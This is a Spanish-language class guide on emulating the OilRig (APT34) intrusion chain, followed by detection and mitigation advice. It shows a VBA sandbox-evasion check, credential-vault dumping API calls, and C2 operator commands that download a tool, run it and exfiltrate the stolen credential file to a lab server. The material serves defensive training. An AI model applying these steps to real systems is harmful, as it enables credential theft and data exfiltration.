


**LINKS DE LA GRABACIÓN DE LA CLASE**: Clase 04

> **GUÍA DE TIEMPOS — Clase 3 horas (solo instructor)**
>
> | Bloque | Sección | Tiempo |
> |--------|---------|--------|
> | 1 | Parte 1 completa | 00:00–00:40 |
> | 2 | Paso 1 — Spearphishing + SideTwist | 00:40–01:05 |
> | 3 | Paso 3 — VALUEVAULT | 01:05–01:20 |
> | 4 | Paso 4 — TwoFace webshell | 01:20–01:40 |
> | 5 | Paso 6 — Mimikatz | 01:40–01:55 |
> | 6 | Paso 10 — RDAT + esteganografía | 01:55–02:20 |
> | 7 | Parte 3.3 — Ingeniería de Detección | 02:20–02:45 |
> | 8 | Preguntas y cierre | 02:45–03:00 |
>
> *Post completo (11 pasos + análisis de malware): `_posts/2025-10-12-tema04.md.backup`*
> *Lectura autónoma asignada: Parte 3.1 (análisis de malware: SideTwist, VALUEVAULT, TwoFace, RDAT) y Parte 3.2 (infraestructura).*

## **Tabla de Contenidos**

- [Parte 1: Introducción y Contexto](#parte-1-introducción-y-contexto)
  - [1.1 Perfil del Actor de Amenaza](#11-perfil-del-actor-de-amenaza)
  - [1.2 Visión General del Ataque](#12-visión-general-del-ataque)
- [Parte 2: Análisis de la Cadena de Ataque](#parte-2-análisis-de-la-cadena-de-ataque)
  - [Fase 1: Acceso Inicial y Establecimiento](#fase-1-acceso-inicial-y-establecimiento)
    - [Paso 1: Compromiso Inicial — Spearphishing + SideTwist](#paso-1-compromiso-inicial-y-persistencia)
    - [Paso 3: Volcado de Credenciales — VALUEVAULT](#paso-3-volcado-de-credenciales-de-bajo-privilegio)
  - [Fase 2: Movimiento Lateral hacia Exchange](#fase-2-movimiento-lateral-hacia-exchange)
    - [Paso 4: Web Shell en EWS — TwoFace](#paso-4-instalación-del-web-shell-en-ews)
    - [Paso 6: Volcado de Credenciales Privilegiadas — Mimikatz](#paso-6-volcado-de-credenciales-privilegiadas)
  - [Fase 3: Compromiso del Servidor SQL y Exfiltración](#fase-3-compromiso-del-servidor-sql-y-exfiltración)
    - [Paso 10: Recolección y Exfiltración — RDAT + Esteganografía](#paso-10-recolección-y-exfiltración-de-archivos-de-base-de-datos)
- [Parte 3: Ingeniería de Detección](#33-ingeniería-de-detección)
- [Apéndices](#apéndices)


---

## **Parte 1: Introducción y Contexto**

### **1.1 Perfil del Actor de Amenaza**

#### **¿Quién es OilRig (APT34)?**

OilRig, también conocido como APT34, Helix Kitten, o Cobalt Gypsy, es un grupo de amenaza persistente avanzada (APT) que ha sido atribuido con alta confianza a actores patrocinados por el estado iraní. El grupo ha estado activo desde al menos 2014 y ha demostrado capacidades sofisticadas en operaciones de ciberespionaje.

#### **Contexto Histórico**

Cronología de Actividad:
- **2014-2015**: Primeras operaciones documentadas contra objetivos en Oriente Medio
- **2016-2017**: Expansión de campañas hacia el sector energético y financiero
- **2018**: Descubrimiento de las campañas DNSpionage y herramientas como Helminth
- **2019-2020**: Evolución del arsenal con SideTwist, RDAT y otras herramientas personalizadas
- **2021**: Documentación de campañas actualizadas por Check Point Research

#### **Objetivos Típicos**

OilRig ha demostrado un interés consistente en los siguientes sectores:

1. **Energía e Infraestructura Crítica**
   - Compañías petroleras y de gas
   - Empresas de servicios públicos
   - Infraestructura energética

2. **Sector Gubernamental**
   - Ministerios y agencias gubernamentales
   - Organizaciones diplomáticas
   - Entidades de defensa

3. **Sector Financiero**
   - Instituciones bancarias
   - Servicios financieros
   - Empresas de inversión

4. **Telecomunicaciones y Tecnología**
   - Proveedores de servicios de telecomunicaciones
   - Empresas de tecnología
   - Proveedores de servicios gestionados

#### **Perfil Geográfico**

El grupo ha dirigido sus operaciones principalmente hacia:
- Oriente Medio (Arabia Saudita, Emiratos Árabes Unidos, Qatar)
- Estados Unidos
- Europa (especialmente objetivos con intereses en Oriente Medio)
- Asia (Corea del Sur, Japón)

#### **Motivaciones y Objetivos**

Las operaciones de OilRig típicamente buscan:

Objetivos Estratégicos:
- Recopilación de inteligencia sobre infraestructura crítica
- Espionaje económico e industrial
- Monitoreo de entidades políticas y diplomáticas
- Acceso persistente a redes objetivo

Métodos Característicos:
- Campañas de spearphishing altamente dirigidas
- Desarrollo de herramientas personalizadas
- Explotación de servicios públicos (Exchange, VPN)
- Persistencia a largo plazo en redes comprometidas

#### **Sofisticación Técnica**

Nivel de Habilidad: Intermedio a Avanzado

Características Distintivas:
- Desarrollo activo de malware personalizado
- Técnicas de evasión de detección
- Uso creativo de protocolos legítimos (DNS, HTTP, EWS)
- Capacidad de adaptación ante medidas defensivas
- Operaciones de larga duración con objetivos claros

---

### **1.2 Visión General del Ataque**

#### **Descripción del Escenario**

Esta emulación de adversario reproduce una campaña típica de OilRig dirigida a comprometer una organización con el objetivo final de exfiltrar información sensible almacenada en un servidor SQL. El escenario se desarrolla en tres fases distintas que representan la progresión natural de un ataque APT sofisticado.

#### **Narrativa del Ataque**

La campaña comienza cuando un administrador de Exchange Web Services (EWS) llamado Gosta recibe un correo electrónico de spearphishing que aparenta ser documentación de marketing legítima. Al abrir el documento de Microsoft Word adjunto y habilitar las macros, Gosta inadvertidamente permite la instalación del backdoor SideTwist en su estación de trabajo.

Una vez establecido el acceso inicial, los atacantes realizan reconocimiento exhaustivo del entorno, descubriendo que Gosta posee privilegios administrativos sobre el servidor de Exchange. Aprovechando esta información, los atacantes roban las credenciales de Gosta y las utilizan para moverse lateralmente hacia el servidor Exchange.

En el servidor Exchange, los atacantes instalan el webshell TwoFace, que proporciona persistencia adicional y capacidades de comando y control. Desde esta posición privilegiada, los atacantes descubren la existencia de un servidor SQL que contiene datos críticos de infraestructura.

Para alcanzar el servidor SQL, los atacantes roban credenciales privilegiadas de un administrador SQL llamado Tous mediante el uso de Mimikatz. Utilizando estas credenciales comprometidas, ejecutan movimiento lateral hacia el servidor SQL mediante pass-the-hash y PsExec.

Finalmente, los atacantes despliegan el backdoor RDAT en el servidor SQL, lo utilizan para localizar y copiar archivos de respaldo de base de datos, y exfiltran estos datos a través de la API de Exchange Web Services hacia una cuenta de correo electrónico controlada por los atacantes. La exfiltración se realiza ocultando los datos dentro de imágenes BMP adjuntas a correos electrónicos, una técnica de esteganografía que dificulta la detección.

#### **Arquitectura del Entorno Objetivo**

**Topología de Red:**

```
Internet
    |
    v
[Atacante: 192.168.0.4]
[Servidor Mail: 192.168.0.5]
    |
    v
[Red Corporativa: 10.1.0.0/24]
    |
    +-- [Controlador de Dominio: DISKJOCKEY - 10.1.0.4]
    |
    +-- [Estación de Trabajo: THEBLOCK - 10.1.0.5]
    |   Usuario: BOOMBOX\gosta (Administrador EWS)
    |
    +-- [Servidor Exchange: WATERFALLS - 10.1.0.6]
    |   Servicios: OWA, EAC, EWS API
    |
    +-- [Servidor SQL: ENDOFROAD - 10.1.0.7]
        Usuario Privilegiado: BOOMBOX\tous (Administrador SQL)
        Datos Críticos: sitedata_db.bak
```



**Componentes de Infraestructura del Atacante:**

1. **Plataforma de Ataque Linux (192.168.0.4)**
   - Sistema Operativo: Kali Linux 2019.2
   - Función: Servidor C2 para SideTwist
   - Servicios: Servidor HTTP (puerto 443)
   - Herramientas: FreeRDP, curl, herramientas de pentesting

2. **Servidor de Correo y Archivos (192.168.0.5)**
   - Sistema Operativo: Kali Linux 2019.2
   - Función: Entrega de spearphishing
   - Servicios: Postfix (SMTP), Apache (HTTP)
   - Payloads: Marketing_Materials.zip

#### **Las Tres Fases del Ataque**

##### **Fase 1: Acceso Inicial y Establecimiento (Pasos 1-3)**

**Objetivo:** Establecer presencia inicial y recopilar información básica

**Resumen de Actividades:**
- Spearphishing con documento Word malicioso
- Despliegue del backdoor SideTwist vía macros VBA
- Establecimiento de persistencia mediante tarea programada
- Reconocimiento inicial del sistema comprometido
- Robo de credenciales de bajo privilegio con VALUEVAULT

**Herramientas Utilizadas:**
- Documento Word con macros maliciosas
- SideTwist (backdoor HTTP)
- VALUEVAULT (volcado de credenciales)

**Resultados Clave:**
- Acceso persistente a la estación de trabajo de Gosta
- Descubrimiento de membresía en grupo "EWS Admins"
- Obtención de credenciales en texto claro de Gosta
- Identificación del servidor Exchange (WATERFALLS)

##### **Fase 2: Movimiento Lateral hacia Exchange (Pasos 4-7)**

**Objetivo:** Comprometer el servidor Exchange y establecer acceso privilegiado

**Resumen de Actividades:**
- Instalación del webshell TwoFace en el servidor Exchange
- Reconocimiento del servidor Exchange
- Volcado de credenciales privilegiadas con Mimikatz
- Establecimiento de túnel RDP mediante plink
- Movimiento lateral hacia Exchange usando credenciales de Gosta

**Herramientas Utilizadas:**
- TwoFace (webshell personalizado en ASP.NET)
- Mimikatz (volcado de credenciales de memoria LSASS)
- Plink (túnel SSH para RDP)

**Resultados Clave:**
- Persistencia adicional vía webshell
- Acceso RDP al servidor Exchange
- Credenciales NTLM del administrador SQL (Tous)
- Descubrimiento del servidor SQL (ENDOFROAD)

##### **Fase 3: Compromiso del Servidor SQL y Exfiltración (Pasos 8-11)**

**Objetivo:** Acceder al servidor SQL, localizar datos sensibles y exfiltrarlos

**Resumen de Actividades:**
- Pass-the-hash con credenciales de Tous
- Movimiento lateral hacia SQL Server mediante PsExec
- Despliegue del backdoor RDAT
- Descubrimiento de archivos de respaldo de base de datos
- Exfiltración mediante API EWS con esteganografía
- Limpieza de artefactos y salida

**Herramientas Utilizadas:**
- Mimikatz (pass-the-hash)
- PsExec (ejecución remota)
- RDAT (backdoor de exfiltración)
- API de Exchange Web Services

**Resultados Clave:**
- Acceso al servidor SQL como administrador
- Localización de archivos de respaldo críticos
- Exfiltración exitosa de datos vía EWS API
- Limpieza de evidencia forense

#### **Flujo de Datos del Ataque**

```
[Spearphishing Email]
        ↓
[Documento Word Malicioso]
        ↓
[Macro VBA ejecuta]
        ↓
[SideTwist instalado en THEBLOCK]
        ↓
[Callback a C2: 192.168.0.4:443]
        ↓
[Reconocimiento + VALUEVAULT]
        ↓
[Credenciales de Gosta obtenidas]
        ↓
[TwoFace webshell → WATERFALLS]
        ↓
[Mimikatz → Credenciales de Tous]
        ↓
[Pass-the-hash + PsExec → ENDOFROAD]
        ↓
[RDAT instalado en SQL Server]
        ↓
[Archivos .bak fragmentados en chunks]
        ↓
[Esteganografía en archivos BMP]
        ↓
[Exfiltración vía EWS API]
        ↓
[Buzón atacante: sistan@shirinfarhad.com]
```



#### **Mapeo a MITRE ATT&CK**

Esta campaña demuestra técnicas a lo largo de toda la matriz ATT&CK:

| Táctica              | Cantidad de Técnicas | Ejemplos Principales                     |
| -------------------- | -------------------- | ---------------------------------------- |
| Reconnaissance       | 2                    | T1592, T1589                             |
| Resource Development | 3                    | T1583, T1587, T1588                      |
| Initial Access       | 2                    | T1566.002 (Phishing: Spearphishing Link) |
| Execution            | 4                    | T1204.002, T1059.005, T1569.002          |
| Persistence          | 3                    | T1053.005, T1505.003                     |
| Privilege Escalation | 2                    | T1078.002, T1068                         |
| Defense Evasion      | 6                    | T1027, T1036, T1564.001, T1070.004       |
| Credential Access    | 4                    | T1555.004, T1003.001, T1550.002          |
| Discovery            | 12                   | T1082, T1033, T1016, T1087, T1069, etc.  |
| Lateral Movement     | 4                    | T1021.001, T1021.002, T1570              |
| Collection           | 2                    | T1005, T1074.001                         |
| Command and Control  | 4                    | T1071.001, T1573.001, T1572, T1105       |
| Exfiltration         | 2                    | T1041, T1048.003                         |

#### **Objetivos de Aprendizaje**

Al completar esta guía educativa, el estudiante será capaz de:

1. **Comprender la Metodología APT**
   - Identificar las fases de un ataque sofisticado
   - Reconocer patrones de comportamiento de actores APT
   - Entender la progresión lógica de un compromiso

2. **Análisis de Técnicas Específicas**
   - Analizar el funcionamiento de backdoors personalizados
   - Comprender técnicas de movimiento lateral
   - Identificar métodos de exfiltración encubierta

3. **Perspectiva Defensiva**
   - Reconocer oportunidades de detección en cada fase
   - Desarrollar estrategias de mitigación efectivas
   - Implementar controles de seguridad apropiados

4. **Aplicación Práctica**
   - Ejecutar emulaciones de adversario en entornos controlados
   - Validar controles de seguridad existentes
   - Desarrollar reglas de detección personalizadas

---

## **Parte 2: Análisis de la Cadena de Ataque**

### **Fase 1: Acceso Inicial y Establecimiento**

#### **Paso 1: Compromiso Inicial y Persistencia**

##### **Objetivo de la Actividad**

Establecer acceso inicial a la red objetivo mediante spearphishing y desplegar el backdoor SideTwist con persistencia a través de una tarea programada en Windows.

##### **Contexto del Escenario**

El usuario Gosta, quien es administrador del servidor Exchange Web Services, recibe un correo electrónico que aparenta provenir de "team@ganjavigms.com" con un enlace para descargar un archivo comprimido llamado "Marketing_Materials.zip". El correo emplea técnicas de ingeniería social para convencer a Gosta de que se trata de documentación legítima relacionada con materiales de marketing.

Al hacer clic en el enlace, Gosta descarga el archivo desde el servidor del atacante (192.168.0.5). El archivo ZIP está protegido con contraseña (!M@rk3ting!) para evadir análisis automatizado de seguridad de correo electrónico. Una vez descomprimido, Gosta encuentra un documento de Microsoft Word llamado "GGMS Overview.doc".

##### **Técnicas MITRE ATT&CK**

**T1566.002 - Phishing: Spearphishing Link**
- El atacante envía un correo dirigido con un enlace a un archivo malicioso
- Utiliza ingeniería social para incentivar la descarga del archivo

**T1204.002 - User Execution: Malicious File**
- Requiere que el usuario abra el documento y habilite macros
- El archivo aparenta ser contenido legítimo de negocios

**T1059.005 - Command and Scripting Interpreter: Visual Basic**
- Las macros VBA ejecutan código malicioso al abrir/cerrar el documento
- Las macros realizan verificaciones anti-sandbox antes de ejecutarse

##### **Flujo de Ejecución Técnica**

**Al abrir el documento:**

1. **Recolección de Variables de Entorno (T1082, T1033)**
   ```vba
   computername = Environ("computername")
   username = Environ("username")
   ```
   - El macro recopila el nombre del equipo y del usuario
   - Esta información se utiliza posteriormente para identificación del beacon

2. **Verificación Anti-Sandbox (T1497.001)**
   ```vba
   If Application.MouseAvailable = False Then Exit Sub
   ```
   - Detecta si hay un mouse disponible
   - Los entornos de análisis automatizado típicamente carecen de mouse
   - Si no se detecta mouse, la macro termina sin ejecutar payload

3. **Extracción del Payload (T1027)**
   - El payload SideTwist está embebido en el documento como Base64
   - Se almacena en `UserForm1.TextBox1.Text`
   - El macro decodifica y escribe el payload a disco

4. **Creación de Directorio y Escritura de Archivos (T1105, T1083)**
   ```
   Directorio: C:\Users\gosta\AppData\Local\SystemFailureReporter\

   Archivos creados:
   - b.doc (realmente un ejecutable, el payload SideTwist)
   - update.xml (archivo vacío usado como killswitch)
   ```

**Al cerrar el documento:**

5. **Segunda Verificación Anti-Sandbox (T1497.001)**
   - Se repite la verificación de `Application.MouseAvailable`
   - Esta doble verificación aumenta la evasión

6. **Renombrado del Payload (T1036)**
   ```
   b.doc → SystemFailureReporter.exe
   ```
   - El nombre hace referencia a componentes legítimos de Windows
   - Busca confundir al usuario y a analistas forenses

7. **Establecimiento de Persistencia (T1053.005)**
   - Crea una tarea programada llamada "SystemFailureReporter"
   - La tarea ejecuta el payload cada 5 minutos
   - Se ejecuta en el contexto del usuario actual (Gosta)

   ```
   Tarea: SystemFailureReporter
   Comando: C:\Users\gosta\AppData\Local\SystemFailureReporter\SystemFailureReporter.exe
   Frecuencia: Cada 5 minutos
   Usuario: BOOMBOX\gosta
   ```

**Cuando SystemFailureReporter.exe se ejecuta:**

8. **Recolección de Información del Sistema (T1082, T1033)**
   - Utiliza GetUserName API para obtener el nombre del usuario actual
   - Utiliza GetComputerName API para obtener el nombre del equipo
   - Utiliza GetDomainName API para obtener el dominio

9. **Establecimiento de Comunicación C2 (T1071.001, T1573.001)**
   ```
   Protocolo: HTTP sobre puerto 443 (sin TLS)
   Servidor C2: 192.168.0.4:443
   Cifrado: XOR con clave estática
   Método: GET/POST requests
   ```

##### **Análisis del Malware: SideTwist**

**Arquitectura del C2:**

El servidor de Comando y Control presenta una página falsa de error de Flickr cuando se accede sin credenciales válidas. Las instrucciones para los implantes se incrustan entre etiquetas `<script>` en el código HTML de la página.

<!-- **Estructura del Comando:**
```
<script>
[base64( XOR_encrypt( comando ) )]
</script>
``` -->

**Proceso de Comunicación:**

1. El implante realiza una petición GET al servidor C2
2. El servidor responde con la página HTML que contiene comandos cifrados
3. El implante extrae el contenido entre etiquetas `<script>`
4. Decodifica el Base64 y descifra usando XOR
5. Ejecuta el comando y captura la salida
6. Cifra la salida usando XOR y la codifica en Base64
7. Envía los resultados al C2 mediante POST request

**Características de Seguridad Operacional:**

- Si el implante no encuentra el archivo `update.xml`, se termina automáticamente (killswitch)
- Las peticiones que no corresponden a implantes registrados reciben solo la página falsa
- El uso de XOR simple permite evasión de inspección SSL/TLS profunda (no hay certificados sospechosos)

##### **Oportunidades de Detección**

**Nivel de Red:**
- Tráfico HTTP en puerto 443 sin TLS (altamente anómalo)
- Beacons periódicos cada 5 minutos hacia IP externa
- Patrón de peticiones HTTP con User-Agent sospechoso
- Transferencia de datos codificados en Base64 en cuerpo de POST

**Nivel de Host:**
- Creación de tarea programada desde proceso WINWORD.EXE
- WINWORD.EXE escribiendo archivos .exe en AppData
- Ejecución de .exe renombrado desde directorio de usuario
- Archivo llamado "update.xml" en ubicación inusual
- Proceso con nombre legítimo iniciado desde ubicación no estándar

<!-- **Nivel de Comportamiento:**
- Proceso ejecutándose cada 5 minutos de forma consistente
- Comunicación de red iniciada por proceso en AppData
- Uso de APIs de sistema (GetUserName, GetComputerName) por proceso no firmado -->

<!-- **Reglas de Detección Ejemplo:**

```yaml
# Sigma Rule Example
title: Tarea Programada Creada por Microsoft Word
status: experimental
logsource:
    product: windows
    service: security
    definition: 'Requiere auditoría de creación de tareas programadas'
detection:
    selection:
        EventID: 4698  # Tarea programada creada
        TaskContent|contains: 'WINWORD.EXE'
    condition: selection
falsepositives:
    - Documentos legítimos que automatizan tareas (muy raro)
level: high
``` -->

##### Estrategias de Mitigación

**Prevención:**
1. **Configuración de Microsoft Office**
   - Deshabilitar macros de documentos descargados de Internet
   - Implementar política de "Deshabilitar todas las macros excepto digitalmente firmadas"
   - Utilizar Protected View para archivos de fuentes no confiables

2. **Controles de Correo Electrónico**
   - Filtrado de archivos comprimidos con contraseña
   - Análisis de sandboxing de archivos adjuntos
   - Validación SPF/DKIM/DMARC rigurosa

3. **Seguridad de Endpoint**
   - Application whitelisting (solo ejecutables firmados)
   - Bloqueo de ejecución desde carpetas de usuario (%APPDATA%, %TEMP%)
   - EDR con detección de comportamiento de macros

**Detección:**
1. **Monitoreo de Tareas Programadas**
   - Alertas sobre creación de tareas desde procesos de Office
   - Validación de ubicación de ejecutables en tareas programadas

2. **Análisis de Tráfico**
   - Detección de HTTP en puerto 443
   - Inspección de contenido Base64 en HTTP POST

3. **Behavioral Analytics**
   - Detección de beaconing periódico
   - Identificación de procesos de corta duración recurrentes

**Respuesta:**
1. Aislar el sistema comprometido de la red
2. Eliminar la tarea programada maliciosa
3. Eliminar el directorio SystemFailureReporter
4. Analizar correos similares en otros buzones
5. Bloquear comunicaciones hacia IP del C2
6. Realizar hunting para identificar otros sistemas comprometidos

---

> **\[Clase — omitido en sesión\]** **Paso 2: Discovery en la Workstation.** Con SideTwist activo, el atacante enumera el sistema: `net user`, `ipconfig /all`, `systeminfo`, `net group`. Resultado: Gosta pertenece al grupo *EWS Admins* — esto habilita el movimiento lateral a Exchange. Ver backup para detalle completo.

---

#### **Paso 3: Volcado de Credenciales de Bajo Privilegio**

##### **Objetivo de la Actividad**

Utilizar la herramienta VALUEVAULT para extraer credenciales almacenadas en el Administrador de Credenciales de Windows (Windows Credential Manager) del usuario Gosta, obteniendo así su contraseña en texto claro para facilitar movimiento lateral posterior.

##### **Contexto del Escenario**

Después del reconocimiento, los atacantes han confirmado que Gosta es miembro del grupo "EWS Admins", lo que significa que posee privilegios administrativos sobre el servidor Exchange (WATERFALLS). Sin embargo, para aprovechar estos privilegios, los atacantes necesitan las credenciales reales de Gosta.

OilRig emplea VALUEVAULT, una herramienta personalizada desarrollada en Go que extrae credenciales del Windows Credential Manager sin necesidad de privilegios elevados. Esta herramienta es particularmente efectiva porque muchos usuarios almacenan credenciales para sitios web, servicios de red y aplicaciones en el Credential Manager de Windows.

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- SideTwist descarga VALUEVAULT (b.exe) desde el servidor C2
- El archivo se transfiere cifrado con XOR y codificado en Base64

**T1555.004 - Credentials from Password Stores: Windows Credential Manager**
- VALUEVAULT accede al Windows Vault mediante APIs legítimas
- Extrae credenciales almacenadas sin requerir privilegios administrativos

**T1041 - Exfiltration Over C2 Channel**
- Los resultados del volcado se exfiltran a través del canal C2 de SideTwist
- Se utiliza el mismo protocolo HTTP con cifrado XOR

##### **Flujo de Ejecución Técnica**

**Paso 1: Descarga de VALUEVAULT**

El operador envía un comando al implante SideTwist para descargar la herramienta:

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\gosta\AppData\Roaming\b.exe|b.exe'
```

**Desglose del comando:**
- `102`: Código de operación para descarga de archivo
- `C:\Users\gosta\AppData\Roaming\b.exe`: Ruta de destino en el sistema objetivo
- `|b.exe`: Nombre del archivo en el servidor C2

**Proceso en el sistema objetivo:**
1. SideTwist recibe la instrucción durante su próximo beacon (máx. 5 minutos)
2. Realiza una petición HTTP GET al C2 para obtener el payload b.exe
3. El C2 responde con b.exe cifrado con XOR y codificado en Base64
4. SideTwist decodifica y descifra el archivo
5. Escribe b.exe en `C:\Users\gosta\AppData\Roaming\b.exe`
6. Reporta éxito al C2

**Paso 2: Ejecución de VALUEVAULT**

```bash
./evalsC2client.py --set-task goTb '101 C:\Users\gosta\AppData\Roaming\b.exe'
```

**Desglose del comando:**
- `101`: Código de operación para ejecución de comando
- El comando ejecuta b.exe (VALUEVAULT)

**Funcionamiento de VALUEVAULT:**

VALUEVAULT es una implementación en Go del concepto "Windows Vault Password Dumper". Realiza los siguientes pasos:

1. **Enumeración de Vaults**
   ```go
   // Abre el Windows Vault usando la API VaultEnumerateVaults
   VaultEnumerateVaults(0, &vaultCount, &vaultGuid)
   ```

2. **Acceso a Ítems del Vault**
   ```go
   // Para cada vault, enumera los ítems almacenados
   VaultOpenVault(vaultGuid, 0, &vaultHandle)
   VaultEnumerateItems(vaultHandle, 512, &itemCount, &items)
   ```

3. **Extracción de Credenciales**
   ```go
   // Obtiene las credenciales en texto claro
   VaultGetItem(vaultHandle, &itemGuid, 0, &item)
   ```

4. **Escritura de Resultados**
   - VALUEVAULT crea un archivo SQLite: `fsociety.dat`
   - Ubicación: `C:\Users\gosta\AppData\Roaming\fsociety.dat`
   - Estructura de la base de datos:
     ```sql
     CREATE TABLE credentials (
         url TEXT,
         username TEXT,
         password TEXT
     );
     ```

**Tipos de credenciales extraídas:**
- Credenciales guardadas de Internet Explorer/Edge
- Credenciales de aplicaciones Windows
- Credenciales de red (shares SMB, etc.)
- Credenciales genéricas almacenadas por aplicaciones

**Paso 3: Exfiltración de Resultados**

```bash
./evalsC2client.py --set-task goTb '103 C:\Users\gosta\AppData\Roaming\fsociety.dat'
```

**Desglose del comando:**
- `103`: Código de operación para subida de archivo
- Especifica la ruta de `fsociety.dat` para exfiltración

**Proceso de exfiltración:**

1. SideTwist lee el contenido de `fsociety.dat`
2. Cifra el contenido usando XOR con la misma clave estática
3. Codifica el resultado en Base64
4. Envía el archivo al C2 mediante HTTP POST
5. El C2 recibe y almacena el archivo en `./files/fsociety.dat`

**Paso 4: Análisis de Credenciales Obtenidas**

En el servidor C2, el operador examina las credenciales:

```bash
ls ./files
cat ./files/fsociety.dat
```

**Credenciales descubiertas (ejemplo):**
```
URL: https://waterfalls.boom.box/owa
Username: BOOMBOX\gosta
Password: d0ntGoCH4$ingW8trfalls
```

Este es un hallazgo crítico: la contraseña en texto claro de Gosta permite a los atacantes:
- Autenticarse como Gosta en servicios de red
- Acceder al Outlook Web Access (OWA)
- Utilizar credenciales para movimiento lateral hacia el servidor Exchange
- Potencialmente acceder a otros servicios donde Gosta reutiliza la contraseña

##### **Análisis del Malware: VALUEVAULT**

**Características Técnicas:**

1. **Lenguaje de Programación:** Go (Golang)
   - Facilita compilación multiplataforma
   - Produce binarios standalone sin dependencias
   - Dificulta análisis estático y reversión

2. **APIs de Windows Utilizadas:**
   ```
   vaultcli.dll:
   - VaultEnumerateVaults
   - VaultOpenVault
   - VaultEnumerateItems
   - VaultGetItem
   - VaultCloseVault
   ```

3. **No Requiere Privilegios Elevados:**
   - Opera dentro del contexto del usuario actual
   - Solo accede a credenciales del usuario, no de sistema
   - No dispara UAC ni requiere bypass de privilegios

4. **Salida en SQLite:**
   - Formato estructurado y fácilmente consultable
   - Permite procesamiento automatizado por el atacante
   - Nombre del archivo ("fsociety.dat") es referencia a la serie Mr. Robot

**Comparación con Otras Herramientas:**

| Herramienta               | Privilegios Requeridos | Objetivo          | Detección |
| ------------------------- | ---------------------- | ----------------- | --------- |
| VALUEVAULT                | Usuario estándar       | Windows Vault     | Baja      |
| Mimikatz                  | Administrador/SYSTEM   | Memoria LSASS     | Alta      |
| LaZagne                   | Usuario estándar       | Múltiples fuentes | Media     |
| Windows Credential Editor | Administrador          | Memoria           | Alta      |

**Ventajas Operacionales para el Atacante:**
- No requiere escalación de privilegios
- Usa APIs legítimas (difícil de bloquear)
- Binario personalizado (sin firmas de AV/EDR)
- Exfiltración integrada con C2 existente

##### Oportunidades de Detección

**Nivel de Archivo:**

1. **Creación de fsociety.dat**
   ```
   Ubicación: C:\Users\*\AppData\Roaming\fsociety.dat
   Tipo: Base de datos SQLite
   Proceso creador: b.exe (desde AppData)
   ```

2. **Ejecución desde AppData**
   ```
   Archivo: b.exe
   Ubicación: C:\Users\gosta\AppData\Roaming\
   Sin firma digital
   Proceso padre: SystemFailureReporter.exe
   ```

**Nivel de API:**

1. **Acceso a Windows Vault APIs**
   - Proceso inusual llamando a VaultEnumerateVaults
   - Múltiples llamadas a Vault APIs en secuencia rápida
   - Llamadas desde proceso no firmado en AppData

**Detección con Sysmon:**

```xml
<Sysmon schemaversion="4.82">
  <EventFiltering>
    <!-- Detectar ejecución de ejecutables desde AppData -->
    <RuleGroup name="Execution from Temp Directories">
      <ProcessCreate onmatch="include">
        <Image condition="contains">\AppData\Roaming\</Image>
      </ProcessCreate>
    </RuleGroup>

    <!-- Detectar creación de archivos .dat en AppData -->
    <RuleGroup name="Suspicious File Creation">
      <FileCreate onmatch="include">
        <TargetFilename condition="end with">.dat</TargetFilename>
        <TargetFilename condition="contains">\AppData\Roaming\</TargetFilename>
      </FileCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Indicadores de Red:**

- POST request con contenido SQLite codificado
- Transferencia de archivo pequeño (~5-50 KB típicamente)
- Patrón: Descarga → Ejecución → Subida en ventana de ~15-30 minutos

**Búsqueda Proactiva (Threat Hunting):**

```powershell
# Buscar ejecuciones desde AppData con acceso a Vault
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=1  # Process Creation
} | Where-Object {
    $_.Properties[4].Value -like '*\AppData\*' -and
    $_.Properties[4].Value -like '*.exe'
}

# Buscar archivos .dat recientemente creados
